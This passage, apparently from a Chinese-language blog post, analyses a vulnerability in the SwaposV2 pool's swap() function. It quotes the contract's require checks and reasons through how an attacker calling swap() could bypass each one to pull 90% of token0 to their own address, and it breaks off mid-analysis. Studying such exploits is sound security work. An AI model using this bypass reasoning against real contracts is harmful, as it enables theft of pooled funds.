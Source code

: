 也就是说 `swap()`函数允许外部调用者将池子的中的token0或token1 发送给任意接收方 😱

当然, 代码中有一堆`require`语句用于条件检查, 只要能绕过这些检查, 就能任意转账

假设攻击者要将池中的大部分token0 划转给自己:

```solidity
SwaposV2.swap(<90% of token0 in the pool>, 0, <address of attacker>, "")
```

那么攻击者我们能不能绕过这些`require`

### require 1

```solidity
        require(
            amount0Out > 0 || amount1Out > 0,
            "SwaposV2: INSUFFICIENT_OUTPUT_AMOUNT"
        );
```

检查`amount0Out`和`amount1Out` 至少一个大于0, 攻击者传入的`amount0Out`参数为"90% of token0 in the pool", 没毛病



### require 2

```solidity

        (uint112 _reserve0, uint112 _reserve1, ) = getReserves(); 
        require(
            amount0Out < _reserve0 && amount1Out < _reserve1,
            "SwaposV2: INSUFFICIENT_LIQUIDITY"
        );
```

获取库存, 检查输出小于库存, 攻击者只要90% 🤪

### require 3

```solidity
require(to != _token0 && to != _token1, "SwaposV2: INVALID_TO");
```

确保接收方不是token0或token1, 没问题, 是攻击者



### require 4

```solidity
        
        balance0 = IERC20(_token0).balanceOf(address(this));
        balance1 = IERC20(_token1).balanceOf(address(this));
        uint amount0In = balance0 > _reserve0 - amount0Out
            ? balance0 - (_reserve0 - amount0Out)
            : 0;
        uint amount1In = balance1 > _reserve1 - amount1Out
            ? balance1 - (_reserve1 - amount1Out)
            : 0;
        require(
            amount0In > 0 || amount1In > 0,
            "SwaposV2: INSUFFICIENT_INPUT_AMOUNT"
        );
```
